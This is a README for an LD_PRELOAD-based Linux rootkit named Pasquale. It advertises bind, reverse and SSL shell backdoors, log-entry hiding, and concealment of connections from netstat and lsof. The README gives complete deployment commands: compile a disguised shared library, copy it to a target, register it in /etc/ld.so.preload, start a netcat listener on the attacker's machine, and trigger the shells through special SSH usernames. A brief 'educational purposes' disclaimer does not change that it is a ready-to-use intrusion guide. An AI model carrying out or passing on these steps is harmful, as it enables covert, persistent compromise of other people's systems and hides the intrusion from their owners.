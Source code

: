 # Pasquale Rootkit

## Overview

Pasquale is a userland rootkit utilizing the `LD_PRELOAD` technique to hook system calls and provide various backdoor functionalities. It demonstrates advanced concepts in C programming and security.

## Features

- **Backdoor Access**: Provides bind shell, reverse shell, and SSL-encrypted shell backdoors.
- **Log Manipulation**: Hides specific log entries from `vsftpd.log` and syslog.
- **Process Hiding**: Conceals specific connections from `netstat` and `lsof`.

## Installation

### Prerequisites

Ensure you have OpenSSL installed on your system. On macOS, use Homebrew:

```bash
brew install openssl
```

### Compilation

Compile the rootkit as a shared library:

```bash
gcc pasquale.c -fPIC -shared -D_GNU_SOURCE -o lib.pack.so.6 -ldl -lssl -lcrypto
```

### Deployment

1. **Upload the Library**: Transfer the compiled library to the target system.

    ```bash
    scp lib.pack.so.6 user@target:/tmp/
    ```

2. **Move the Library**: Move the library to a suitable location.

    ```bash
    mv /tmp/lib.pack.so.6 /lib/i386-linux-gnu/lib.pack.so.6
    ```

3. **Configure `LD_PRELOAD`**: Add the library to `/etc/ld.so.preload`.

    ```bash
    echo "/lib/i386-linux-gnu/lib.pack.so.6" > /etc/ld.so.preload
    ```

### Verification

Verify that the library is loaded:

```bash
ldd /bin/ls
```

Check that `lib.pack.so.6` is listed.

## Usage

### Starting a Listener

Start a listener on the attacker's machine:

```bash
nc -lvp 443
```

### Triggering the Backdoor

Use one of the special usernames to trigger the desired backdoor (bind, reverse, or SSL):

```bash
ssh BIND_USER@target
ssh REVERSE_USER@target
ssh OPENSSL_USER@target
```

## Important Notes

- **Educational Purposes**: This rootkit is intended for educational purposes only. Do not use it for malicious activities.
- **System Impact**: Running this rootkit can have significant security implications. Use it in a controlled and legal environment.

## License

This project is licensed under the MIT License.

---
